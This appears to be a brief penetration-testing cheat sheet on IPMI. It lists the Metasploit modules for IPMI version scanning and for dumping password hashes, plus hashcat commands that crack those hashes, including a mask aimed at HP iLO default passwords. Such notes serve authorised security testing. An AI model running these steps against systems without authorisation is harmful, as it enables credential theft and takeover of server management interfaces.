 ## Metasploit Version Scan

```metasploit module
auxiliary/scanner/ipmi/ipmi_version
```
## Metasploit Dumping Hashes

```metasploit module
auxiliary/scanner/ipmi/ipmi_dumphashes 
```
## Cracking hash with hashcat
#### Cracking the random 8 character password for hp ilo

```bash
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```
#### Cracking IPMI hash with hashcat

```
hashcat -m 7300 <hash> <wordlist like /usr/share/wordlists/rockyou.txt>
```
# Tags

> #Recon #Information-gathering #Service-Enum 